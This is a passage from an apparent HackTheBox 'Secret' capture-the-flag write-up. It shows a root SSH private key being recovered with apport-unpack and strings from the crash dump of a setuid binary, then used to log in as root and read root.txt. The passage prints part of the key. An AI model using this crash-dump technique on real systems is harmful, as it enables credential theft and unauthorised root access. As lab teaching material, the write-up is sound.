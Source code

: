 
It has all kinds of information about the process at the time of the crash,
and a large base-64 encoded blob at the end.

`apport-unpack` will decompress the dump into a given directory:

    
    
    dasith@secret:/var/crash$ apport-unpack _opt_count.1000.crash /tmp/0xdf
    dasith@secret:/var/crash$ ls /tmp/0xdf/
    Architecture         ExecutableTimestamp  ProcMaps
    CoreDump             ProblemType          ProcStatus
    Date                 ProcCmdline          Signal
    DistroRelease        ProcCwd              Uname
    ExecutablePath       ProcEnviron          UserGroups 
    

`file` shows `CoreDump` as an ELF binary:

    
    
    dasith@secret:/tmp/0xdf$ file CoreDump 
    CoreDump: ELF 64-bit LSB core file, x86-64, version 1 (SYSV), SVR4-style, from './count', real uid: 1000, effective uid: 0, real gid: 1000, effective gid: 1000, execfn: './count', platform: 'x86_64'
    

That’s because it’s the memory of the process at the time of the crash.
Running strings on it will return the file:

    
    
    dasith@secret:/tmp/0xdf$ strings -n 30 CoreDump                       
    /usr/lib/x86_64-linux-gnu/libc-2.31.so
    ...[snip]...
    Save results a file? [y/N]: l words      = 45                                                            
    -----BEGIN OPENSSH PRIVATE KEY-----           
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn          
    NhAAAAAwEAAQAAAYEAn6zLlm7QOGGZytUCO3SNpR5vdDfxNzlfkUw4nMw/hFlpRPaKRbi3
    KUZsBKygoOvzmhzWYcs413UDJqUMWs+o9Oweq0viwQ1QJmVwzvqFjFNSxzXEVojmoCePw+
    ...[snip]...
    fO8ebYddyVz4w9AAAADnJvb3RAbG9jYWxob3N0AQIDBA==
    -----END OPENSSH PRIVATE KEY-----
    ...[snip]...
    

### SSH

With the SSH key, I can SSH into the box as root:

    
    
    oxdf@hacky$ ssh -i ~/keys/secret-root root@10.10.11.120
    ...[snip]...
    root@secret:~#
    

And read `root.txt`:

    
    
    root@secret:~# cat root.txt
    fd1c20cd************************
    

[](/2022/03/26/htb-secret.html)

